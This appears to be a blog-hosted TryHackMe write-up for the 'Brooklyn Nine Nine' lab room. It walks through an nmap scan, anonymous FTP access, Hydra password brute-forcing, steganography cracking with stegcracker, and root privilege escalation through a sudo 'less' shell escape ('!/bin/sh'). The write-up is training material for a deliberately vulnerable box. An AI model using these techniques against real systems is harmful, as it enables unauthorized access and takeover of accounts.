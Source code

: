 ```yaml
---
layout: post
title: Brookyln 99 Writeup
categories: TryHackMe
tags: [Misconfigured FTP, Steganography, Bruteforce]
---
```

 
# Brooklyn Nine Nine 
This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box. you can check it out here:
https://www.tryhackme.com/room/brooklynninenine

# ~$Preface::
First off I am personally a huge fan of the show, (Amy is my fav character btw I'm sure yunno why lol) and Its a quite easy one, but no worries if youre stuck I'll walk you through buddy;) but first I'll leave hints to stimulate your mind:
![image](https://github.com/Rami3ll/Rami3ll.github.io/blob/main/assets/img/posts/brooklyn99.jpg)

# ~$HINTS::
- checked source code yet??
- Port 80 exists for a reason yunno?
- Hmph, just a picture? 
- Bruteforcing steg?

First things first, a Portscan so we know our attack surface:

```
┌──(azazel㉿azazel)-[~/Tryhackme/Brooklyn99]
└─$ nmap -sC -sV 10.10.24.94 -Pn -vv -p 1-1024 -T4 --open  
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.45.27
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
# ~$FIRST METHOD:
Got anon logins allowed on ftp, so, swiftly I log in to "get" the file we got from our script scan: "note_to_jake.txt"
where Amy gives us a clear hint(See why I like her?)::
```
─(azazel㉿azazel)-[~/Tryhackme/Brooklyn99]
└─$ ftp 10.10.24.94
Connected to 10.10.24.94.
220 (vsFTPd 3.0.3)
Name (10.10.24.94:azazel): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (378.5372 kB/s)
```
I read the file and get the clue that Jake is using weak creds(Classic Jake), 
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
hehee I let Hydra do his thing::
![image](https://github.com/Rami3ll/Rami3ll.github.io/blob/main/assets/img/posts/B991edit.png)

Welp Jake was not the root user and the user.txt is also not his or in his home directory, I navigated to Holt's and found the user.txt flag,  
before scp or wget...ing any Privesc script I like to manually check for LPE vectors apparently we have sudo permissions to use "less" https://gtfobins.github.io/ says we can use this for privesc like so::

![image](https://github.com/Rami3ll/Rami3ll.github.io/blob/main/assets/img/posts/b99Privesc.png)
next 
```
sudo less /etc/profile 
```
And append 
```
!/bin/sh
```
And thats it we are root! read the file, submit the flags.
Why this was fun is because it made me understand the relevance of the /etc/profile config file, it is basically a root owned folder that is ran on login that controls system-wide default variables especially terminal type in our case scenerio, us having access to the "less" this through "vim/or a vim-like interface" and carry out command operations within the file with the "less" binary allowed us spawn a root shell!



# Second Intended Method
Wont be posting images to display cause I forgot to document this part, but its pretty basic, I'll give the steps here ;
- Visited port 80 and checked source code which gave the clue:
 ```
 Have you ever head of steganography?
 ```
 Downloaded the image being served on port 80 through the server, Yes the seemingly unsuspecting image.
 Tried a 2 common passwords and failed swiftly and then decided to google-fu a little for tools to bruteforce a steg image and found two: stegcracker and stegseek, although stegseek is more revered due to speed I prefer stegcracker on multithread mode :)
- Then I used Stegcracker:
```
sudo apt install stegcracker
```
![image](https://github.com/Rami3ll/Rami3ll.github.io/blob/main/assets/img/posts/steg-bb9.png)

```
cat the output file and it gives us this 
Holts Password:
fl#################e

Enjoy!!
```

It gives us Holts ssh creds, I log in, Holt has a different sudo permission used https://gtfobins.github.io/ and got root!:


Greetings, from Rami3l.



